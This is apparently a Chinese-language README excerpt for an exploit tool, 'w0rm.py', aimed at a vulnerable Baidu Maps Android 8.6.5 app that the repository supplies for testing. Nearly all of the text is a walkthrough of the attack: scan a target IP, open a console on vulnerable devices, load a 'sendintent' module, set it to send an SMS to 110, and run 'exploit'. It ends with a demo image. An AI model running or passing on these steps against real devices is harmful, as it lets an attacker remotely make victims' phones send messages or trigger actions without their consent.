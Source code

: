 #### 示例

* 准备

 `/datas/` 目录下有供测试使用的 apk 文件

 * 百度地图 8.6.5
  
  		MD5 [BaiduMaps_Android_8-6-5_1012676b.apk](./datas/BaiduMaps_Android_8-6-5_1012676b.apk) = f711f170e5f97e3332b16f1159ff8010

1. 检查目标

 ```
python w0rm.py 192.168.1.100
 ```

 如果目标存在漏洞则会进入控制台界面

2. 使用 use 加载模块

 ```
use sendintent
 ```

3. 设置参数

 ```
set intent sms:110
 ```

4. 执行 payload

 ```
exploit
 ```


### 演示

* Demo1
![](./datas/demo.jpg)

---